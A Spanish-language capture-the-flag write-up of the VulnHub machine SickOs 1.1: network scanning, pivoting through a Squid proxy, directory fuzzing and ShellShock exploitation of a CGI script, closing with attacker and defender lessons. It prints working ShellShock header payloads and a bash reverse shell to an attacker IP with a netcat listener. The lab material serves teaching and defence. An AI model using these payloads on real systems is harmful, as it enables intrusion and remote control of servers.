# SickOs: 1.1 — VulnHub

**Dificultad:** Media | **SO:** Linux (Ubuntu 12.04 LTS) | **Fecha:** 07/10/2026 | **Autor:** krinoxx | **Plataforma:** [SickOs: 1.1 (D4rk)](https://www.vulnhub.com/entry/sickos-11,132/) — VulnHub

## Índice
- [Reconocimiento](#reconocimiento)
- [Enumeración web](#enumeración-web)
- [Acceso inicial](#acceso-inicial)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Lecciones aprendidas](#lecciones-aprendidas)
  - [Desde el punto de vista del atacante](#desde-el-punto-de-vista-del-atacante)
  - [Desde el punto de vista del defensor](#desde-el-punto-de-vista-del-defensor)

## Reconocimiento

La máquina **SickOs: 1.1**, publicada por D4rk en VulnHub, se descarga como imagen OVA/7z lista para importar en un hipervisor local.

### 1. Descarga de la máquina


### 2. Arranque de la VM
Tras importar el `.7z` en VMware Workstation, la máquina arranca sobre Ubuntu 12.04.4 LTS y queda a la espera de credenciales en el prompt de login.



### 3. Descubrimiento del host en la red
Con la VM en la misma red que mi máquina de ataque (Arch Linux), lanzo un `arp-scan` sobre el segmento local para identificar la IP asignada al objetivo.

```bash
arp-scan -I ens33 --localnet --ignoredups
```

El host `192.168.1.56` aparece con MAC de VMware, Inc., lo que lo identifica como la máquina virtual objetivo.



### 4. Escaneo de puertos
A continuación, escaneo todos los puertos TCP del objetivo con Nmap:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 192.168.1.56
```

Resultado: solo dos puertos abiertos.

| Puerto | Servicio |
|---|---|
| 22/tcp | ssh |
| 3128/tcp | squid-http |



El puerto 3128 confirma la presencia de un **proxy Squid**, lo que condiciona toda la enumeración posterior: hay que pivotar a través de él para poder llegar a cualquier servicio que escuche solo en localhost del objetivo.

## Enumeración web

### 5. Configuración del proxy Squid en el navegador
Añado una entrada en FoxyProxy apuntando al Squid del objetivo (`192.168.1.56:3128`) para poder navegar a través de él.



### 6. Primer acceso a través del proxy
Con el proxy activado, accedo a `http://192.168.1.56/` y obtengo una respuesta del propio servidor web del objetivo.



### 7. Fuzzing de directorios a través del proxy
Lanzo `gobuster` en modo `dir`, dirigiendo todo el tráfico a través del Squid con `--proxy`:

```bash
gobuster dir -u http://192.168.1.56/ --proxy http://192.168.1.56:3128 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20
```

Se descubren tres recursos: `index`, `connect` y `robots`.



### 8. Script propio de descubrimiento de puertos internos
Dado que el Squid puede actuar como pivote hacia servicios en `localhost` del propio objetivo, desarrollo un pequeño script en Python que recorre un listado de puertos TCP comunes, lanzando peticiones HTTP a `127.0.0.1:<puerto>` a través del proxy y marcando como abiertos aquellos que no devuelven un `503`.



### 9. Ejecución del script
Al ejecutarlo contra el objetivo, el script identifica tres puertos internos accesibles únicamente a través del proxy:

```
[+] Port 22 - OPEN
[+] Port 80 - OPEN
[+] Port 3306 - OPEN
```



El puerto **3306 (MySQL)** destaca por no estar expuesto directamente en el escaneo Nmap inicial — solo es alcanzable pivotando a través del Squid hacia `localhost` del propio objetivo.

### 10. Petición al puerto MySQL interno vía proxy
Con `curl`, envío una petición HTTP a `127.0.0.1:3306` a través del proxy y vuelco la respuesta cruda a un fichero:

```bash
curl http://127.0.0.1:3306 --proxy http://192.168.1.56:3128 --output output
file output
```

El fichero resultante se identifica como datos binarios.



### 11. Análisis del contenido capturado
Al inspeccionar el contenido con `cat`, se observa el handshake inicial de MySQL filtrado en claro a través de la respuesta: versión del servidor (`5.5.46-0ubuntu0.12.04.2`), referencia a `mysql_native_password` y el mensaje de error `Got packets out of order`.



Esto confirma versión exacta del motor MySQL y método de autenticación del servicio interno, información de valor para la siguiente fase.

## Acceso inicial

El fuzzing inicial a través del proxy Squid no encontraba el recurso `connect` descubierto en la fase de enumeración web, así que retomo el directory brute-forcing, esta vez prestando atención a `/cgi-bin/`.

### 12. Fuzzing de directorios en la raíz
Relanzo `gobuster` sobre la raíz del sitio, esta vez con `--add-slash` para distinguir directorios de ficheros:

```bash
gobuster dir -u http://192.168.1.56 --proxy http://192.168.1.56:3128 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --add-slash
```

Aparecen tres directorios con `403 Forbidden` (`cgi-bin/`, `icons/`, `doc/`) y `index/` con `200`. El `403` en `cgi-bin/` indica que el directorio existe pero su listado está bloqueado, lo que lo convierte en el siguiente objetivo.



### 13. Fuzzing de scripts dentro de /cgi-bin/
Apunto gobuster directamente a `/cgi-bin/`, añadiendo extensiones típicas de scripts CGI (`pl`, `sh`, `cgi`):

```bash
gobuster dir -u http://192.168.1.56/cgi-bin/ --proxy http://192.168.1.56:3128 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

Se encuentra el recurso `status` con `200 OK`.



### 14. Inspección del script status
Visitando `http://192.168.1.56/cgi-bin/status` desde el navegador, el script devuelve un JSON con el uptime del sistema y la versión de kernel: `Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu ... i686 athlon i386 GNU/Linux`.



Un script Bash CGI expuesto en un sistema de esta época es un candidato directo para **ShellShock (CVE-2014-6271)**: la vulnerabilidad en Bash permite inyectar comandos a través de variables de entorno construidas a partir de cabeceras HTTP (como `User-Agent`) que el servidor web pasa al intérprete al invocar el script.

### 15. Prueba de ShellShock — whoami
Envío una petición a `/cgi-bin/status` a través del proxy, con una cabecera `User-Agent` maliciosa que define una función vacía seguida del comando a ejecutar:

```bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.56:3128 -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```

La respuesta confirma ejecución de comandos en el servidor, devolviendo `www-data`.



### 16. Confirmación del contexto de ejecución
Repito la prueba ejecutando `id` para confirmar el usuario y grupo con el que corre el proceso del servidor web:

```bash
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.56:3128 -H "User-Agent: () { :; }; echo; /usr/bin/id"
```

Resultado: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.



### 17. Obtención de shell interactiva
Con la inyección confirmada, preparo un listener en mi máquina atacante y lanzo el mismo vector de ShellShock, esta vez con una bash reverse shell como payload en el `User-Agent`:

```bash
# Listener en la máquina atacante
sudo nc -nlvp 443

# Payload ShellShock
curl -s http://127.0.0.1/cgi-bin/status --proxy http://192.168.1.56:3128 -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.172/443 0>&1'"
```

El listener recibe la conexión entrante desde `192.168.1.56` y obtengo una shell interactiva como `www-data` en el sistema, confirmada con `whoami` y `hostname -I`.



**Acceso inicial logrado:** shell como `www-data` en SickOs a través de la explotación de ShellShock en el script `/cgi-bin/status`, pivotando todo el tráfico a través del proxy Squid.

## Escalada de privilegios

*No ha sido necesaria una fase de escalada de privilegios independiente: la shell obtenida mediante la explotación de ShellShock en /cgi-bin/status ya proporciona acceso suficiente para completar el objetivo de la máquina, sin requerir un salto adicional de usuario o de privilegios.*

## Lecciones aprendidas

### Desde el punto de vista del atacante

- Un proxy Squid mal configurado puede usarse como **pivote** para alcanzar servicios que solo escuchan en `localhost` del propio host, ampliando la superficie de ataque más allá de lo que muestra un escaneo de puertos directo.
- Automatizar el descubrimiento de puertos internos a través del proxy (en vez de depender solo de herramientas estándar) permite mapear servicios que de otro modo pasarían desapercibidos.
- Forzar una respuesta de un servicio no-HTTP (como MySQL) a través de un proxy HTTP puede filtrar banners y metadatos útiles para fingerprinting, aunque la conexión "falle".
- Un script CGI en Bash expuesto en un sistema con una versión de Bash vulnerable es suficiente para lograr ejecución remota de comandos vía **ShellShock**, inyectando el payload en cualquier cabecera HTTP que el servidor traslade al entorno del proceso (`User-Agent`, `Referer`, `Cookie`, etc.).
- Encadenar hallazgos de fases distintas (el pivote a través del proxy + el script CGI olvidado en `/cgi-bin/`) es clave: ninguno por separado habría dado acceso, pero juntos permiten tanto llegar al recurso vulnerable como explotarlo.

### Desde el punto de vista del defensor

- Un proxy Squid que permite peticiones hacia `127.0.0.1` y rangos internos facilita el *pivoting* y el *SSRF*; se debe restringir explícitamente el acceso a localhost y a redes internas mediante ACLs (`acl localnet dst ...` + `http_access deny`).
- Los servicios internos (como MySQL) no deberían ser alcanzables ni siquiera indirectamente desde un servicio expuesto como el proxy; conviene segmentar con reglas de firewall independientes del control de acceso del propio Squid.
- Limitar los puertos de destino permitidos en el proxy (`acl Safe_ports`) reduce la ventana de puertos que un atacante puede sondear a través de él.
- Mantener Bash y el resto del sistema parcheados es crítico: ShellShock (CVE-2014-6271) lleva corregido desde 2014, pero sigue siendo explotable en cualquier sistema sin actualizar que exponga scripts CGI en Bash.
- Evitar scripts CGI en Bash siempre que sea posible, o como mínimo restringir qué cabeceras HTTP se exponen al entorno del proceso invocado por el servidor web.

*Writeup educativo en entorno controlado.*
